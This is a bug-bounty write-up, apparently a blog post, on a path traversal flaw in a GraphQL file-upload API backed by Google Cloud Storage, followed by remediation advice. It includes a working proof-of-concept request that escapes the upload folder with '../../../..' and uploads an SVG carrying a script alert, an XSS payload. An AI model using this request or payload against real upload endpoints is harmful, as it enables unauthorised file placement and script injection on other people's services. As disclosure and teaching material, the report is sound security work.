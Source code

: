 ```yaml
---
title: Path Traversal in File Upload via GraphQL API
description: A file upload endpoint accepted folder traversal sequences, enabling unauthorized file placement and abuse of signed Google Cloud Storage URLs.
date: 2025-03-11
tags:
  - path-traversal
  - file-upload
  - graphql
  - gcp
  - bug-bounty
---
```


# Path Traversal in File Upload via GraphQL API


## Summary

During a routine test of a GraphQL file upload API, I discovered a **path traversal vulnerability** that allowed attackers to escape intended directories and store files in arbitrary locations on Google Cloud Storage. This could lead to **malicious file hosting**, **stored XSS**, or **unintentional overwriting of sensitive files**.

---

## Vulnerability Details

- **Endpoint**: `POST /graphql`
- **Vulnerable Parameter**: `folder` inside the GraphQL mutation

By setting the `folder` variable to a traversal string like `../../../..`, I was able to manipulate the final storage path of the uploaded file.

---

## Proof of Concept

Here’s a condensed version of the PoC used in the request:

```http
POST /graphql HTTP/2
Host: rise-api.target.com
Authorization: Bearer <token>
Content-Type: multipart/form-data; boundary=----boundary

------boundary
Content-Disposition: form-data; name="operations"

{
  "operationName": "singleUpload",
  "variables": {
    "folder": "../../../..",
    "file": "newfile"
  },
  "query": "mutation singleUpload($file: Upload!, $folder: String!) { singleUpload(file: $file, folder: $folder) { filename uri signedUrl } }"
}
------boundary
Content-Disposition: form-data; name="map"

{ "1": ["variables.file"] }
------boundary
Content-Disposition: form-data; name="1"; filename="test.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert("XSS by mora");</script>
</svg>
------boundary--

```

### API Response

```json
{
  "data": {
    "singleUpload": {
      "filename": "test.svg",
      "uri": "organization_abc/../../../others/unique-id-test.svg",
      "signedUrl": "https://rise-files.target.com/others/unique-id-test.svg?...",
    }
  }
}
```

This shows the file being placed in a directory (`/others/`) outside the intended `organization_abc` context.

---

## Recommended Fixes

1. **Sanitize folder input**: Reject traversal sequences like `../` in any upload path.
2. **Whitelist upload directories**: Only allow uploads to pre-approved subdirectories.
3. **Limit signed URL lifetimes**: Expire signed URLs quickly to reduce misuse.
4. **Validate upload metadata server-side**: Don't rely on client-provided `folder` paths blindly.
5. **Restrict public access to upload endpoints**: Tie storage and access to strong authZ/authN checks.

---

## Impact

* **Persistent Malicious File Hosting**: Attackers could upload malware or phishing content to a trusted domain.
* **Stored XSS Risk**: Malicious file names or SVG files might execute if reflected or embedded.
* **Overwrite Risk**: Without validation, uploads could overwrite essential `.js`, `.json`, or user-generated content.
* **Information Exposure**: If GCS directory listings are ever enabled, sensitive files may be accessible.

---

## Resolution

The issue was marked **Informative** due to limited security impact in this context. However, it highlights a common misconfiguration when using file upload APIs, especially with cloud storage services like GCS or S3.

---

## 📚 References

* [OWASP Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
* [GCP Signed URLs Best Practices](https://cloud.google.com/storage/docs/access-control/signed-urls)

---

Thanks for reading!

```
```
